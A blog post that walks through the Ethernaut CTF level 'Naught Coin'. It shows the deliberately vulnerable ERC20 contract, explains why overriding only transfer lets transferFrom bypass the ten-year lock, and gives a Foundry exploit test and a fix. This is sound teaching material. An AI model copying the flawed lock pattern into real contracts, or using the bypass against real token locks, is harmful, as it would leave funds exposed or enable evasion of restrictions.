 ```yaml
---
title: 'Ethernaut Challenge #15 Solution — Naught Coin'
excerpt: This is Part 15 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>We have tons of `NaughtCoin` tokens in our balance but we cannot withdraw them for **10 years**. The goal of this challenge is to find a way to withdraw them skipping the lock period.
coverImage:
  url: '/assets/blog/ethernaut/naught-coin.svg'
  credit:
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2022-08-01T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/naught-coin.svg'
---
```


This is Part 15 of the ["Let’s play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

## Challenge #15: Naught Coin

> NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.
>
> Things that might help
>
> - The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
> - The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase
>
> Level author(s): [Kyle Riley](https://github.com/syncikin)

We have tons of `NaughtCoin` tokens in our balance, but we cannot withdraw them for **10 years**. The goal of this challenge is to find a way to withdraw them skipping the lock period.

## Study the contracts

Let's review the contract code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = now + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) public ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(now > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

The contract is pretty simple. In the `constructor` the Contract mint to the `player` address `1_000_000` tokens.

> **Note:** there's a double event emission in the `constructor`. After the `_mint` execution the contract `emit` a `Transfer` event without knowing that the native implementation of the OpenZeppelin `_mint` function already `emit` a `Transfer` event.

The contract is overriding the `transfer` function by adding the `lockTokens` function modifier to the `ERC20` implementation. Let's see what this modifier does:

```solidity
// Prevent the initial owner from transferring tokens until the timelock has passed
modifier lockTokens() {
    if (msg.sender == player) {
        require(now > timeLock);
        _;
    } else {
        _;
    }
}
```

The modifier check if the `msg.sender` is the `player` and if that's the case it checks if at least `10 years` have passed since the minting time.

**Are our precious tokens stuck for 10 years?**

To solve this contract, we need to know how the EIP (Ethereum Improvement Proposal) for the ERC20 token works and how OpenZeppelin has implemented it (the contract is using the OpenZeppelin framework library).

You can find all the information needed from these links:

- [Ethereum EIP-20](https://eips.ethereum.org/EIPS/eip-20)
- [OpenZeppelin ERC20 Docs](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20)
- [OpenZeppelin ERC20 Implementation](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol)

There are two-way to transfer tokens:

- via the `transfer` function that allow the `msg.sender` to directly transfer tokens to a `recipient`
- via the `transferFrom` that allows an external arbitrary `sender` (that could be the owner of the tokens itself) to transfer on behalf of the owner an `amount` of tokens to a `recipient`. Before sending those tokens, the owner must have **approved** the `sender` to manage that number of tokens

Because the `transfer` method has been `overrided` by the `NaughtCoin` contract, we can circumvent the restriction by using the `transferFrom` function.

Here's what we need to do:

1. Create a secondary account to transfer all our tokens to
2. Approve ourselves to manage the whole amount of tokens before calling `transferFrom`
3. Call `transferFrom(player, secondaryAccount, token.balanceOf(player))`
4. Use the tokens however we want!

What should the `NaughtCoin` contract have implemented to really lock our token for **10 years**? Instead of `overriding` the `transfer` function, they could have implemented a **hook** that the EIP-20 define, called `_beforeTokenTransfer`.

This hook is called when any kind of token transfer happen:

- `mint` (transfer from `0x` address to the user)
- `burn` (transfer from the user to `0x` address)
- `transfer`
- `transferFrom`

By doing so, they would have prevented this exploit.

## Solution code

The solution is straightforward to implement:

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // Create a secondary account to transfer all our tokens to
    address payable tempUser = utilities.getNextUserAddress();
    vm.deal(tempUser, 1 ether);

    // Get the balance of tokens for the player
    uint256 playerBalance = level.balanceOf(player);

    // Approve ourself to manage the whole amount of tokens before calling `transferFrom`
    level.approve(player, playerBalance);

    // Transfer all the tokens from the player balance to the secondary account
    level.transferFrom(player, tempUser, playerBalance);

    vm.stopPrank();

    // Assert that the player has no more tokens
    assertEq(level.balanceOf(player), 0);

    // Assert that the secondary account received all the tokens
    assertEq(level.balanceOf(tempUser), playerBalance);
}
```

You can read the full solution of the challenge opening [NaughtCoin.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/NaughtCoin.t.sol)

## Further reading

- [Ethereum EIP-20](https://eips.ethereum.org/EIPS/eip-20)
- [OpenZeppelin ERC20 Docs](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20)
- [OpenZeppelin ERC20 Implementation](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
